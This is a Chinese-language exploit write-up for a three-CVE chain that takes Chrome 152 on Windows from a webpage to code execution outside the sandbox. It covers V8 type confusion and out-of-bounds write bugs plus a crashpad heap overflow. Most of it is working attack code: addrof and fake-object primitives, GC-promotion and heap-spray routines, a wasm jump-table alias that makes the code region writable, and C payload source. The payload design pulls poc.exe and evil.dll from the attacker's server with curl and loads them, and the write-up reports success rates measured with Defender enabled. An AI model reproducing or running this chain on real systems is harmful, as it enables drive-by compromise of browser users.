







# 从一个网页到沙箱外的计算器：Chrome 三 CVE 全链深度剖析

> **链标识**：chain-87491-85046-78952-WIN
> **靶标**：Chrome for Testing 152.0.7977.54（x64）· Windows 10 19045 / Windows 11 26300 · Defender 实时防护 + 行为监控全开
> **性质**：授权隔离研究环境下的公开 n-day 复现与武器化研究，所有目标均为本地测试构建，不涉及任何真实第三方系统
> **最终形态**：受害者只需访问一个网页，约 2 分钟内计算器从**非沙箱的 crashpad-handler 进程**中弹出；stage-2 由 payload 用系统 curl 从页面同源服务器自动拉取——目标机零预置、全链零硬编码路径



---

## 一、漏洞影响范围

本链由三个 CVE 缝合而成：两个 V8 原语（ITW/KEV 在野组合，上游称 "bagel" 链）+ 一个 crashpad 跨进程信任边界错误。三者单独都不足以越界，拼接后构成「网页 → 渲染进程原生代码执行 → OS 沙箱逃逸」的完整通路。

| CVE | 组件 / 类型 | 在链中的角色 | 引入 | 修复 | 在野状态 |
|---|---|---|---|---|---|
| **CVE-2026-85046** | V8 · 类型混淆（CWE-843） | 写屏障跳过 → 假对象回收 → **V8 cage 任意读写** | v8 `66a3f1e9`（2026-04-27，内联 sort 归约） | **152.0.7977.82**（2026-09-03，v8 `e0562d87`） | ITW / KEV，报告者 Salvatore Gulizia（Serotav），$1,000 |
| **CVE-2026-87491** | V8 · 越界写 | sort 比较器混淆（**addrof**）+ wasm 私有异常符号伪造 → 跳表别名 → **RX 代码区可写** | 未本地锁定 | **153.0.8010.36** | ITW / KEV，报告者 Jihyeon Jeong（Compsec Lab, SNU），$2,500 |
| **CVE-2026-78952** | crashpad · 堆溢出 / 信任边界 | `ProcessMemoryWin::ReadUpTo` 无钳位重试 → SMMW 模板劫持 → **handler 内 LoadLibraryW = OS 沙箱逃逸** | 未本地锁定 | 官方已修复 | 本链收尾件 |

**版本窗口**：链要求两个 V8 漏洞在同一构建内同时存活，窗口为**内联 sort 归约之后的构建至 152.0.7977.81**；本链在 **152.0.7977.54** 上完成 Windows 侧武器化（Linux 侧在 152.0.7977.75 上独立验证双 bug 链）。修复边界行为已实测：152.0.7977.82 上 5/5 次尝试死于 stage-1（`FAIL young GC not observed` → `85046 bootstrap failed`），类型混淆头已封死。

**威胁模型与达成范围**：

- 受害者访问攻击者控制的网页；渲染进程运行于 V8 沙箱 + OS 低权限 token 之内；
- 真正的"逃逸"不是跳出 V8 cage，而是把代码执行搬进**非沙箱的邻居进程** `chrome.exe --type=crashpad-handler`——崩溃报告收集器天然活在沙箱外，且无条件信任客户端声明的内存布局（这正是 78952 的立足点）；
- 实测成绩（30 轮终测，2026-10-19）：**整链胜率 43%/轮（13/30），到达部署 83%（25/30），期望 ~2.3 轮取胜**，目标机 Defender 全开；2026-10-20 与 2026-11-11 两次换机复跑均取胜。

```
恶意网页（同源服务器）
  ① CVE-2026-87491  sort() 比较器混淆 ─────────► addrof
  ② CVE-2026-85046  写屏障跳过/假对象回收 ─────► V8 cage 任意读写
  ③ wasm 私有异常符号伪造 ────────────────────► 跳表别名 → RX 代码区可写
        │  部署 2.6KB 机器码（字节级校验 bad4=0）+ 注入 location.origin
        ▼  渲染进程 ACE ✔
  ④ payload：PEB→IAT 自取 kernel32 → 5 个已加载导出
        curl.exe 同源拉取 poc.exe+evil.dll 到 %TEMP%（Defender 放行）
        CreateProcessA 启动竞态器 → 自旋 1s → 主动崩溃（0xDEAD0021）
        ▼
  ⑤ CVE-2026-78952  ReadUpTo 无钳位重试溢出
        翻页微脉冲 × 0x168/0xB8 溢出 → SMMW 模板劫持
        → Flush 派发 LoadLibraryW(ev64.dll) → calc + notepad
        ▼  OS 沙箱逃逸 ✔
```



---

## 二、漏洞代码分析

### 2.1 CVE-2026-85046 —— 内联 sort 的 elements-kind 并集：对读安全、对写致命的窄化

**根因**。V8 的 `Array.prototype.sort()` 允许比较器在排序中途重入并修改数组。内联 sort 对多态反馈求 elements-kind **并集**（结果 = PACKED）：并集作为「读」的上界是安全的——读出什么都可能是 double；但作为「写回」的判据是危险的窄化——比较器回调把数组窄化回 PACKED_SMI 后，`CheckMaps` 依然通过，于是 **HeapObject 指针被直接写进 Smi 数组，且整条写路径跳过了写屏障**。

**从根因到原语**。写屏障被跳过的后果在年轻代 GC 的一瞬间兑现：GC 移动对象后，旧指针仍滞留在新空间（无人替它更新）。在旧指针位置喷射"假 JSArray 头"（map = PACKED_DOUBLE），让 V8 把后续回收的内存当作 double 数组复用——得到一个与 victim 数组共享 elements 的**cage 内任意读写**（read32/write32）。

**EXP 侧触发骨架**（stage1w.js，完整逐行解析见 §三.1）：

```js
function confuse(a){ function cmp(){ a.fill(0); return 0 } a.sort(cmp) }
function addrof(o){ const a=[o,o]; confuse(a);
  return ((Math.round(smiValue(a)+0.25)*2)|1)>>>0 }
```

比较器 `cmp` 在排序中途 `fill(0)` 清空数组，排序恢复时 V8 缓存的元素指针与新类型失配，读出的"指针"被按 Smi 解析——这就是 addrof；再配合 `promote()`（压力分配等 young GC）与 `template.slice()` 喷射，完成假对象回收。

> **修复**：上游 v8 `e0562d87`（152.0.7977.82）对写回路径重校验元素类型，写屏障不可再跳过。
> **概率特征**：`promote()` 必须在压力分配循环中恰好等到一次 young GC——这是整链的概率瓶颈之一；必须 fresh renderer，页内 `location.reload()` 复用脏堆会把成功率打到 ~3%（29 连败实测）。

### 2.2 CVE-2026-87491 —— 一个 CVE 的两副面孔：addrof 与 RX 别名之钥

**形态一（addrof）**即上节的比较器混淆，87491 与 85046 共享同一个触发面（内联 sort），但官方记录中 87491 的本体是**越界写**，它才是把 cage 读写升级为 native 执行的钥匙：

**形态二（wasm 私有异常符号伪造 → 跳表别名）**。cage 读写还不够——wasm 代码区在 cage 内但是 RX。利用链为：

1. **复制私有 key**：wasm 异常的私有符号（private symbol）本不可达，但用 cage 任意读写可以沿引用路径把 genuine 异常对象的私有 key 抄进伪造对象（`refPaths`/`follow` 三段引用遍历，见 §三.2）；
2. **伪造 getter 换表**：`Object.defineProperty({}, key, {get(){ table.set(0, target); ... }})`——optimized 代码处于"无副作用窗口"时不会重查表，getter 在窗口内换掉共享跳表项；
3. **mixed dispatch**：分发器拿着 A 实例的过期 trusted instance 元数据去执行 D 实例的函数，`A.tiering_budgets[2]` 越界，**memory index 6 的槽位被解析为跳表指针**——存/取基址落进 wasm 代码区，得到一个**同时可读、可写、可执行的别名**。

结构性依赖值得强调：**87491 需要 cage 读写才有意义，85046 恰好是它的供应商**——两个 ITW 漏洞在原语阶梯上天然互补。

> **修复**：153.0.8010.36（v8 修复晚于 85046）；stale trusted-instance 的内存访问应重新校验 memory index。

### 2.3 CVE-2026-78952 —— crashpad `ReadUpTo`：一次没有钳位的重试

这是全链唯一的**跨进程信任边界**错误，也是最"便宜"的一个：错误本身只有一行。

**上游漏洞源码**（crashpad `util/process/process_memory_win.cc`，`ProcessMemoryWin::ReadUpTo`）：

```cpp
ssize_t ProcessMemoryWin::ReadUpTo(VMAddress address,
                                   size_t size,
                                   void* buffer) const {
  SIZE_T size_out = 0;
  BOOL success = ReadProcessMemory(
      handle_, reinterpret_cast<void*>(address), buffer, size, &size_out);
  if (success)
    return base::checked_cast<ssize_t>(size_out);

  if (GetLastError() == ERROR_PARTIAL_COPY) {
    // If we can not read the entire section, perform a short read of the
    // first page instead. This is necessary to support ReadCString().
    size_t short_read =
        base::GetPageSize() - (address & (base::GetPageSize() - 1));
    //  ▲▲▲ 漏洞就在这两行：short_read 是"页内剩余长度"，
    //      全程没有 short_read = std::min(short_read, size) 的钳位！
    success = ReadProcessMemory(handle_,
                                reinterpret_cast<void*>(address),
                                buffer,          // ← buffer 只有 size 字节
                                short_read,      // ← 却按页内剩余长度读
                                &size_out);
    if (success)
      return base::checked_cast<ssize_t>(size_out);
  }
  ...
}
```

第一段读撞 `ERROR_PARTIAL_COPY`（页被翻成 NOACCESS）后，重试长度取"地址到页尾的剩余字节数"——当调用方声明的 `size` **小于**页内剩余长度时，第二次 `ReadProcessMemory` 会往一个 `size` 字节的堆里缓冲区写入整整一个页剩余长度，**溢出 (page_remainder − size) 字节**。

**信任边界的另一半**：handler（非沙箱）读哪些内存区间，由客户端进程 PE 节 `"CPADinfo"` 里的 `CrashpadInfo.extra_memory_ranges` 声明——攻击者完全控制地址、尺寸与页面保护属性。handler 侧的解析器（chrome.exe 内 `PEImageReader::ReadCrashpadInfo`，源文件 `snapshot/win/pe_image_reader.cc`）只校验签名 `0x43506164`（"CPad"）与版本号，对 ranges 本身**无条件信任**：

```c
// chrome.exe 152.0.7977.54 @ 0x140358A50（IDA 反编译，PEImageReader::ReadCrashpadInfo）
sub_1401A2AB0(Dst, "CPADinfo");                    // 定位客户端 PE 节
...
if ( *a2 != 1129341284 || a2[2] != 1 )             // 0x43506164 "CPad" + version==1
    ... "unexpected crashpad info signature 0x%x, version %u in %s"
// —— 签名/版本之外没有任何对 extra_memory_ranges 内容的合法性校验
```

** shipped 二进制实证（IDA + cdb 双重确认）**。在 Chrome for Testing 152.0.7977.54 的 chrome.exe 中定位 `ReadUpTo`（特征：两次紧邻的 `ReadProcessMemory` 调用 + `cmp eax, 12Bh`），IDA 反编译与 cdb 动态反汇编逐字节一致：

```
; cdb -c "uf chrome+0x347810" chrome.exe   （完整记录：evidence/cdb_readupto_disasm_152.0.7977.54.txt）
00007ff6`a590785d call    qword ptr [chrome+0x2c67d0]   ; ReadProcessMemory(h, addr, buf, size) ← 第一次读
00007ff6`a5907863 test    eax,eax
00007ff6`a5907865 je      chrome+0x24fb27               ; 失败 → 查错误码
...
00007ff6`a59078a7 call    qword ptr [chrome+0x2c6520]   ; GetLastError()
00007ff6`a59078ad cmp     eax,12Bh                      ; ★ ERROR_PARTIAL_COPY (299)
00007ff6`a59078b2 jne     chrome+0x24fb66               ; 不是 → 报错返回 -1
00007ff6`a59078b4 call    chrome+0x180                  ; base::GetPageSize() → 恒 4096
00007ff6`a59078b9 mov     r15,rax
00007ff6`a59078bc call    chrome+0x180                  ; GetPageSize() 再次
00007ff6`a59078c1 dec     rax                           ; pagesize-1 = 0xFFF
00007ff6`a59078c4 and     rax,rbx                       ; address & 0xFFF
00007ff6`a59078c7 sub     r15,rax                       ; ★ r15 = 4096 - (addr & 0xFFF)  页内剩余长度
00007ff6`a59078d9 mov     r9,r15                        ; ★★ 直接作为重试 nSize —— 全程没有与 size 取 min！
00007ff6`a59078dc call    qword ptr [chrome+0x2c67d0]   ; ReadProcessMemory(h, addr, buf, r15) ← 溢出点
```

上游 C++ 与 shipped 汇编在语义上逐行对应，缺的那一行钳位在两份视图里都缺席。调用方 `ReadAvailableMemory`（`process_memory_win.cc:95/103`，chrome.exe @ `0x1403479D0`）把客户端声明区间的 `ranges.front().size()` 传给 `ReadUpTo`，而承载读取结果的堆缓冲区正是按声明尺寸分配的——三个数字构成溢出几何：

```
客户端声明：  触发段 {page+0xE98, size=0xB8}     ← 缓冲区按 0xB8 分配
第一次读：    页被翻成 NOACCESS → ERROR_PARTIAL_COPY
重试长度：    0x1000 - 0xE98 = 0x168             ← 页内剩余，未钳位
溢出：        0x168 - 0xB8  = 0xB0 字节           ← 盖到相邻堆槽（minidump 流的 SMMW 对象）
```

修复只需一行：`short_read = std::min(short_read, size)`——上游已合入，官方版本升级即清除此洞。

---

## 三、漏洞利用分析

> 本节按链路顺序逐阶段拆解，每个阶段对照三份材料：**EXP 源码**（poc/ 目录实拍）、**漏洞源码/二进制**（§二 + IDA/cdb 实证）、**cdb 调试记录**（evidence/ 归档）。全链 console 标记构成判据链，每级独立验收：
>
> ```
> GCDBG sane=true → ST1 cage_rw ready · proof 13.37=13.37
> → ALIAS OK body=0x1980 → WROTE blob → VERIFY bad4=0
> → ORIGIN-OK=true · DEPLOYED →（渲染器主动崩溃 0xDEAD0021）
> → [dbgwrap] WAW#0 cs_=plant+0x10 → Flush → LoadLibraryW → calc ✔
> ```

### 3.1 Stage-1：addrof + cage 任意读写（stage1w.js，全文 82 行）

**addrof 原语**（对应 §2.1/§2.2 形态一）：

```js
const DOUBLE_MAP = 0x01032879, OBJECT_MAP = 0x01032901, EMPTY = 0x7e5, LEN = 0x40;
function confuse(a) { function cmp() { a.fill(0); return 0; } a.sort(cmp); }
function smiValue(a) { return a[0] - 0.25; }
function addrof(o) { const a = [o, o]; confuse(a);
                     return ((Math.round(smiValue(a) + 0.25) * 2) | 1) >>> 0; }
```

三个 build 锁定常量（`DOUBLE_MAP` 等）由 addrof 探针在目标 build 上实测提取——V8 map 指针在 pointer-compression cage 内是低 32 位压缩值，随构建锁定。`+0.25` 的偏移来自混淆后 double 槽位与 Smi 编码的换算：读出的 HeapObject 压缩指针被当作 double 解析，取整后 `*2|1` 还原 tagged 形式。

**GC 提升与旧指针捕获**（`promote()`，整链概率瓶颈）：

```js
function promote(o) {
  let old = addrof(o), moved = false;
  for (let round = 0; round < 16; round++) {
    const marker = {}, markerOld = addrof(marker);
    let collected = false;
    for (let i = 0; i < 2048; i++) {
      const arr = new Array(0x1000).fill(1.1);       // 压力分配，逼出 young GC
      globalThis.__sink = arr;
      if (addrof(marker) !== markerOld) { collected = true; break; }  // marker 被移动 = GC 发生
    }
    if (!collected) throw Error('young GC not observed');
    const now = addrof(o);
    if (moved && now === old) return;                // 连续两轮地址稳定 = 已晋升老生代
    moved = moved || now !== old; old = now;
  }
  throw Error('promotion missed');
}
```

**假对象回收与 cage RW 闭环**（`exploit()` 主体）：

```js
bad[1] = {x:420}; confuse(bad); bad.unshift(0);    // 85046：HeapObject 写进 Smi 数组、跳过写屏障
const dead = Number(String(bad).split(',')[2]) * 2 >>> 0;   // 从悬空槽位读出"死指针"
let spray, hit = -1;
for (let i = 0; i < 512; i++) {
  spray = template.slice();                        // 喷射回收旧指针位置
  const start = (addrof(spray) - size + 7) >>> 0;
  if (dead >= start && dead + 16 < start + n * 8) {
    const f = [DOUBLE_MAP, EMPTY, ve, LEN], r = ((dead - start) >>> 2) & 3;
    const s = [f[(4-r)&3],f[(5-r)&3],f[(6-r)&3],f[(7-r)&3]];   // 按 4 字节相位对齐假 JSArray 头
    spray.fill(w2f(s[0],s[1])); for (let j=1;j<n;j+=2) spray[j]=w2f(s[2],s[3]);
    hit=i; break;
  }
  spray=null;
}
const master = bad[2]; if (master.length !== 32) throw Error('fakeobj missed');  // 假对象接管
```

死指针位置被喷上伪造的 JSArray 头（map=PACKED_DOUBLE、elements 指向 victim 的 elements、length=0x40），`bad[2]` 从此是一个"主控数组"：改它的 elements 指针即可对 cage 内任意地址 read32/write32。最后把 victim 数组的 elements 与 `Float64Array` 的 backing store 指针字段改写为全 cage 视图，得到稳定的 `cage_rw`：

```js
write(rwAddr+32,0,0x20000000); write(rwAddr+48,0x04000000,0); write(rwAddr+56,0,backingHi);
console.log('ST1 cage_rw ready');
...
write32(data,lo(13.37)); write32(data+4,hi(13.37));
console.log('ST1 proof 13.37=' + proof_obj[0]);    // 闭环自检：写 cage 读 JS，13.37=13.37
```

胜轮 console 实拍：

```
"GCDBG addrof 11bd51d 11bd5ed sane=true"     ← addrof 原语自检
"ST1 begin" … "ST1 reclaim hit=14"           ← 85046 回收命中（第 14 次喷射）
"ST1 fakeobj ok"                             ← 假对象接管
"ST1 cage_rw ready"  "ST1 proof 13.37=13.37" ← cage 读写闭环自检
```

### 3.2 Stage-2：wasm 私有异常符号伪造 → RX 代码区可写别名（pocwin_full_w4.js）

**手工构造的双实例 wasm 模块**。`buildModule(memoryIndex)` 用字节数组直接拼 wasm 二进制：实例 `a` 用 memory 0，实例 `d` 声明 7 个 memory、读写函数硬编码 **memory index 6**（越界槽位）；模块尾部 10 个 ~300B 的"胖垫函数"把后续跳转目标抬到 0x1300 以上：

```js
/* 垫充函数：10 个 ~300B 胖体，把后面的跳转目标推高到 0x1300+，
   部署区就不会压到 read/write 自身代码体 */
const PADS=10, PADLEN=300;
```

> 垫函数**数量**是 V8 堆布局敏感参数——v3 时代为塞 64KB 页面内嵌数据把 pad 从 10 加到 130，descriptor discovery 成功率从 29% 崩到 3%（42 轮仅 2 次到达部署）。教训：**要扩代码空间改"每个垫函数的大小"，不要改"垫函数个数"**。

**伪造 getter 与 mixed dispatch**（`installForgedGetter()`）：

```js
const forged = Object.defineProperty({}, key, {get(){
  gets++; table.set(0, target); return undefined }, configurable:true });
const paths = refPaths(backingAddress(forged), addrof(key), [0x20,0x40,0x100]);
...
const privateKey = read32(genData+keyOff);            // 从 genuine 异常对象抄私有 key
write32(forgedData+keyOff, privateKey);               // 移植进伪造对象
...
write32(slot, addrof(forged));                        // 异常表项指向伪造对象
table.set(0, a.exports.old);
for (let i=0;i<300000;i++) a.exports.driver(0);       // 喂 tiering budget，逼出 optimized 代码
...
a.exports.g1.value=0x13579bdf; invoke(d.exports.spray);
if (gets!==1 || wrote!==0x13579bdf) throw Error('stale instance self-test failed');
```

getter 在 optimized 代码的"无副作用窗口"内换掉共享跳表项，分发器以 **A 的过期 trusted instance** 执行 **D 的函数**——instance 隔离自检（A 的 memory 不被 D 的写触碰）确认劫持的是 dispatch 而非数据。

**别名发现与三重部署门禁**（`discoverCodeAlias()` + `deployFinal()`）：枚举 memory index（6 优先），在别名空间扫 `E9` 跳转指令对，试写 marker stub（`mov eax,0x51525354; ret`）验证"劫持的跳转真的执行我们写的字节"，并要求 `body∈[0x1300,0xE000]`；部署后整 blob 逐 4 字节回读校验：

```js
console.log('WROTE blob');
let bad = 0;
for (let i = 0; i + 3 < PAYLOAD.length; i += 4) {
  let v = (PAYLOAD[i] | (PAYLOAD[i+1]<<8) | (PAYLOAD[i+2]<<16) | (PAYLOAD[i+3]<<24)) | 0;
  if ((arwRead(base + i) | 0) !== v) bad++;
}
console.log('VERIFY bad4=' + bad);
if (bad) { console.log('VERIFY-FAIL'); return; }     // 写坏一半绝不点火
```



### 3.3 Stage-3：2.6KB payload 的自举旅行（payload_src_w4.c）

部署进 RX 区别名的 payload 只有 2.6KB，设计原则**零常量、零遍历、零新 DLL**：

```c
__attribute__((noinline, used)) void payload_main(void) {
  u64 peb;
  __asm__ volatile("movq %%gs:0x60, %0" : "=r"(peb));   // PEB
  u64 base = *(volatile u64*)(peb + 0x10);              // ImageBase（chrome.exe）
  u64 llw  = *(volatile u64*)(base + 0x3BE4B8);         // IAT 槽 → LoadLibraryW 绝对地址
  if (llw < 0x10000 || llw > 0x7ffe00000000ull) return;
  u64 k32 = llw & ~0xFFFull;
  for (int i = 0; i < 512; i++, k32 -= 0x1000ull) {     // 页对齐向下扫 MZ+PE 定位 kernel32
    if (*(volatile u16*)k32 == 0x5A4Du) { ... }         // 不做 PEB→Ldr 遍历（堆已损坏，走模块表随时踩雷）
  }
  u64 pTmp = find_export(k32, g_names);                 /* GetTempPathA        */
